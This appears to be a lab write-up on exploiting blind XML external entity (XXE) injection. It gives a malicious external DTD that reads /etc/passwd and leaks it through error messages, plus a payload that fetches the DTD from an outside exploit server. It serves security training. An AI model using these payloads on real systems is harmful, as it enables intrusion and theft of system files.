 # Exploiting blind XXE to retrieve data via error messages

## Exploiting blind XXE to retrieve data via error messages

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

Exploit:

```XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Solution:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac1e1f871ef12ff8c0468369018e004d.web-security-academy.net/exploit.dtd"> %xxe; ]>
```